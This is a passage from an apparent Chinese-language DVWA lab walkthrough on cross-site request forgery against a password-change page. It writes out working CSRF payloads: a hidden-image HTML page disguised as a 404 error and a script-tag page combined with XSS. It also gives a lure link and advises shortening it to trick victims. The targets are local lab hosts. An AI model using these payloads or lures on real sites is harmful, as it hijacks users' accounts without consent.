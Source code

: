 ```
?>
```

通过GET方式获取两次密码，两次密码输入一致的话，就可以直接带入数据中修改密码。

攻击方式：

经过上面的尝试发现可以成功修改账号密码，而且我们发现了URL那里的变化，接下来我们从URL处入手再改一下，首先先重置一下数据库，把密码改回来。

在 C:\phpstudy_pro\WWW 文件夹中建立一个 1.html ，里面写入

```
<img src="http://127.0.0.3/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#" border="0" style="display:none;"/>

<h1>404<h1>

<h2>file not found.<h2>
```

这样的话，当我们打开 1.html 文件的时候，密码就会被修改成123456，（诱骗受害者点击这个1.html文件，放个诱惑链接）

诱骗链接

```
http://127.0.0.1:8888/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#
```

但是一般有一些智商的都不会点击，所以可以将长链接转为短链接，可以使用https://tool.chinaz.com/tools/dwz.aspx来生成短链接。

```

```

或者配合xss一块使用

新建一个带有xss攻击的hmtl的页面

```
<html>
<head>
    <title>XSS&CSRF</title>
</head>
<body>
<script src="http://127.0.0.1:8888/vulnerabilities/csrf/?password_new=222&password_conf=222&Change=Change#"></script>
</body>
</html>
```

当受害者访问127.0.0.1/xss.hmtl的时候，密码就被修改成了222

hmtl的核心语句就是通过scirpt标签的src属性来记载攻击的url

```
<script src="http://127.0.0.1:8888/vulnerabilities/csrf/?password_new=222&password_conf=222&Change=Change#"></script>
```


